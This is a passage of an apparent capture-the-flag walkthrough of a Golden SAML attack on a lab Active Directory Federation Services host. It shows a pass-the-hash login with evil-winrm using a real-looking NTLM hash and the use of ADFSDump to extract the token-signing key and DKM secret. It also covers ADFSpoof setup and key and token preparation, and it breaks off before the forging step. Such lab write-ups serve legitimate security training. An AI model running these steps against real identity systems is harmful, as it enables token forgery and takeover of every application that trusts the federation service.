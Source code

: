 We have the NTLM hash of the **ADFS_GMSA$** service account, which isn’t just a general GMSA account — it’s specifically related to **ADFS**. As we mentioned before, ADFS is used in **SSO authentication systems**, where multiple domains or services authenticate users via a centralized identity provider.

With this, we might be able to perform a **Golden SAML attack** for **ADFS token forgery**. This allows us to **sign SAML tokens as ADFS**, granting access to any **SAML-integrated applications**, such as web apps used in the environment.

But first, I would test **Justin Bradley**’s credentials on **ADFS** to check for any direct access.

![](https://miro.medium.com/v2/resize:fit:828/format:webp/1*ZC8Anf2PF08MyxxlsOIOHA.png)

### Golden SAML attack

It’s time to **forge a SAML token as `Administrator`**, leveraging our **ADFS_GMSA$ hash** for a **Golden SAML attack**.

Since **ADFS_GMSA$** is a member of **REMOTE MANAGEMENT USERS**, we can use Evil-WinRM to access the machine and **dump the private key** that signs the SAML tokens.

```bash
evil-winrm -i 10.10.11.24 -u 'adfs_gmsa$' -H 0bef79ae4d25b1864570212e33922d14
```

![](https://miro.medium.com/v2/resize:fit:828/format:webp/1*X1QcSgL3U46qgjvuRPJ05A.png)

Download [ADFSDump](https://github.com/mandiant/ADFSDump) from source and compile it or use pre-compiled one [ADFSDump.exe](https://github.com/jakobfriedl/precompiled-binaries/raw/main/LateralMovement/ADFSDump.exe) from [precompiled-binaries](https://github.com/jakobfriedl/precompiled-binaries), then upload it to the machine.

**We need to obtain the following:**
+ The certificate used for token signing along with its private key
+ The Distributed Key Manager (DKM) secret stored in Active Directory
+ The configured service providers that rely on AD FS for authentication

![](https://miro.medium.com/v2/resize:fit:828/format:webp/1*ZoTsY4voUagRxk88k6Efdg.png)
![](https://miro.medium.com/v2/resize:fit:828/format:webp/1*7MJzEKLlDb76gvCkqJJo_w.png)

1. Download and Set Up [ADFSpoof](https://github.com/mandiant/ADFSpoof)
    ```bash
    git clone https://github.com/mandiant/ADFSpoof.git && cd ADFSpoof
    python3 -m venv .
    bin/python3 -m pip install six cryptography==3.3.2 pyasn1 lxml signxml
    ```
2. Prepare the Private Key and Token for the Tool
    ```
    # Private key 
    echo '8D-AC-A4-90-70-2B-3F-D6-08-D5.....' | tr -d "-" | xxd -r -p > key.bin
    # Token
    echo 'AAAAAQAAAAAEEAFyHlNXh2VDska8KMTxXboGCWCGSAFl.....' | base64 -d > token.bin
    ````
3. Forge the Golden SAML token
